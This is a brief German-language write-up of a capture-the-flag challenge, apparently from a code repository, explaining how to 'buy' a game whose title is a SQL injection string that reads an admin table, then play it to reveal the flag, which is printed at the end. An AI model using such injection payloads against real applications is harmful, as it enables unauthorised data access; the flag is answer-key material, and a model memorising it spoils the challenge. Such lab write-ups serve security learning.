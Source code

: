 Lösung
=====
1. Ein Spiel muss "gekauft" werden: 
    * Publisher: Egal
    * Game title: Beispielsweise: foo' UNION SELECT (SELECT * FROM admin), "bar";--

2. Das gekaufte Spiel spielen.
    * Which game?: Oben angegebenen Titel hier noch mal angeben. 



`Flagge: H4ckME{tHaT_wAs_An_EaSy_ChAlLeNgE}`